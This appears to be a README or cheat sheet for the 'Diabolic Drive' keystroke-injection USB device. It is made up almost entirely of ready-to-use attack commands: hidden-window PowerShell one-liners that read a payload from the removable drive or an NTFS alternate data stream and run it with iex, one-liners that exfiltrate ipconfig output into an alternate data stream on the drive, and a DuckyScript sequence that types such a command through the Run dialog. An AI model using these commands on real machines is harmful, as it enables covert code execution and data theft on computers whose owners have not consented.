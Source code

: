 ### Normal Payload Delivery Utilizing the Diabolic Drive Flash Storage

powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'payload.txt') | iex)

### Payload Delivery Utilizing the Alternate Data Streams With No Exit Window

powershell -nologo -noexit -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)

### Payload Delivery Utilizing the Alternate Data Streams With No Window

powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)

### Data Exfiltration Using Alternate Data Streams With No Exit Window

powershell -nologo -noexit -c (ipconfig | Add-Content -Path ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:exfil.txt'))

### Data Exfil Using Alternate Data Streams With No Window

powershell -nologo -WindowStyle Hidden -c (ipconfig | Add-Content -Path ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:exfil.txt'))

## Notes :
### You can make more than one alternate data stream file for one file. For example, a test.jpg file might have 2 alternate data streams, which are test.jpg:payload.txt and test.jpg:exfil.txt

## DuckyScript Examples
DELAY 1000
GUI r
DELAY 1000
STRING powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)
DELAY 1000
ENTER

## Learn More!
https://www.crowdsupply.com/unit-72784/diabolic-drive/updates/alternate-data-streams-ads-for-covert-payload-delivery-and-data-exfiltration

